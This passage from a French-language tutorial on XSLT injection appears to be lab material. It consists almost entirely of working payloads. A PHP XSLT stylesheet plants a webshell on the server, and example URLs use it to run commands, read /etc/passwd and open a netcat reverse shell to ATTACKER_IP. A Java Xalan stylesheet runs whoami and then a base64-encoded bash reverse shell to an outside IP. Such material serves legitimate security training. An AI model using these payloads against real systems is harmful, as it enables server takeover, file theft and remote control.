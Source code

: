 **Étape 2 : Créer le webshell**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl">
  
  <xsl:template match="/">
    <xsl:value-of select="php:function('file_put_contents',
                                       '/var/www/html/shell.php',
                                       '&lt;?php system($_GET[&quot;cmd&quot;]); ?&gt;')"/>
    <result>Webshell créé !</result>
  </xsl:template>
</xsl:stylesheet>
```

**Étape 3 : Accéder au webshell**

```
http://target.com/shell.php?cmd=id
http://target.com/shell.php?cmd=cat /etc/passwd
http://target.com/shell.php?cmd=nc -e /bin/bash ATTACKER_IP 4444
```

***

#### 🧪 Lab 4 : RCE via Java (Xalan)

**Objectif :** Exécuter des commandes sur serveur Java

**XSLT :**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
  xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
  
  <xsl:template match="/">
    <html>
      <body>
        <h2>Exécution de commandes</h2>
        
        <!-- Whoami -->
        <xsl:variable name="rtObj" select="rt:getRuntime()"/>
        <xsl:variable name="process" select="rt:exec($rtObj, 'whoami')"/>
        <xsl:variable name="result" select="ob:toString($process)"/>
        <p>User: <xsl:value-of select="$result"/></p>
        
        <!-- Reverse shell -->
        <xsl:variable name="shell" select="rt:exec($rtObj, 
          'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}')"/>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```
